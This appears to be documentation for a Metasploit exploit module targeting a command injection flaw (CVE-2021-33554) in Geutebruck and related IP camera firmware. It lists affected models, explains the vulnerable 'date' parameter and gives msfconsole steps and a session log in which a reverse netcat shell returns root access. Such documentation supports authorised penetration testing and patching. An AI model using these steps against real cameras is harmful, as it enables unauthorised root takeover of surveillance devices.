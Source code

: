 ## Vulnerable Application

The following [Geutebruck](https://www.geutebrueck.com) products using firmware versions <= 1.12.0.27, firmware version 1.12.13.2 or firmware version 1.12.14.5:
* Encoder and E2 Series Camera models:
  * G-Code:
    * EEC-2xxx
  * G-Cam:
    * EBC-21xx
    * EFD-22xx
    * ETHC-22xx
    * EWPC-22xx

Many brands use the same firmware:
  * UDP Technology (which is also the supplier of the firmware for the other vendors)
  * Ganz
  * Visualint
  * Cap
  * THRIVE Intelligence
  * Sophus
  * VCA
  * TripCorps
  * Sprinx Technologies
  * Smartec
  * Riva

This module has been tested on a Geutebruck 5.02024 G-Cam EFD-2250 running the latest firmware version 1.12.0.27.

### Description

This module bypass & exploits an authenticated OS command injection vulnerability (CVE-2021-33554) within the
`date` GET parameter of /uapi-cgi/tmpapp.cgi.
This issue occurs due to a lack of validation on the `date` parameter, which allows an attacker to
inject a command alongside other parameters passed to the CGI, at which point the server will then interpret the new string as a separate command to be executed. Successful exploitation will result in
remote code execution as the `root` user.

Users can find additional details of this vulnerability on the blogpost page at https://www.randorisec.fr/udp-technology-ip-camera-vulnerabilities/.

## Verification Steps

  1. Start the camera using default configuration
  2. Launch msfconsole
  3. Do: `use exploit/linux/http/geutebruck_tmpapp_exec`
  4. Do: `set lhost <metasploit_ip>`
  5. Do: `set rhosts <camera_ip>`
  6. Do: `check` to be sure the target is vulnerable
  7. Do: `exploit`
  8. You should get a shell

## Scenarios
### Geutebruck 5.02024 G-Cam EFD-2250 running firmware version 1.12.0.27.
```
msf6 > use exploit/linux/http/geutebruck_tmpapp_exec
[*] Using configured payload cmd/unix/reverse_netcat_gaping
msf6 exploit(linux/http/geutebruck_tmpapp_exec) > set lhost 192.168.14.1
lhost => 192.168.14.1
msf6 exploit(linux/http/geutebruck_tmpapp_exec) > set rhosts 192.168.14.58
rhosts => 192.168.14.58
msf6 exploit(linux/http/geutebruck_tmpapp_exec) > exploit

[*] Started reverse TCP handler on 192.168.14.1:4444
[*] 192.168.14.58:80 - Attempting to exploit...
[*] Command shell session 3 opened (192.168.14.1:4444 -> 192.168.14.58:43392) at 2021-02-23 13:37:28 +0200
pwd

/tmp/www_ramdisk/uapi-cgi/admin
id
uid=0(root) gid=0(root)
uname -a
Linux EFD-2250 2.6.18_IPNX_PRODUCT_1.1.2-g3532e87a #1 PREEMPT Tue May 12 18:00:46 KST 2020 armv5tejl GNU/Linux
```
